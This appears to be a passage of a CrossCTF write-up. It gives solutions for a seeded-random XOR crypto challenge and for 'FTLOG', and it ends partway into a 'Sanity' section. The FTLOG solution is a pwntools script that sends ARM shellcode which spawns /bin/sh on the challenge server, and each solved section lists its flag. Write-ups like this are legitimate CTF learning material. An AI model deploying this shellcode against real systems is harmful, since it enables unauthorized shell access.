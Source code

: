 ```python
import random

random.seed(a=14474011154664524427946373126085988481573677491474835889066354349131199152128)

k = "".join([hex(random.randint(0, 255))[2:] for i in range(35)])

print(k)
```

This gives us the hex: `363c49bfa7f2ebe9c888d5d32be6ede8c1bfa2d9aea7595ff4419792896b96cfd2e1a6`

Then xoring that with `754e26ccd4b1bfafb3ffbdaa748780b7f0e0c3ae9acc3c008670f0fafd34f8ffa596db`, you get the flag.

Flag: `CrossCTF{why_am_1_aw4ke_r1ght_n0ww}`

# FTLOG

## Problem

https://youtu.be/RW2vXFLXtps

nc ctf.pwn.sg 4004

Hint: The raspberry Pis might come in handy but you can look at using qemu too.

Creator - amon (@nn_amon)

## Solution

The ARM binary seems to just execute the input as shellcode.

Code:

```python
from pwn import *

sh = remote('ctf.pwn.sg', 4004)

sh.sendline('\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78')
sh.interactive()
```

Flag: `CrossCTF{slowmo_starroving_sugarforthepill_alison}`

# Sanity

## Problem

Insane in the membrane.
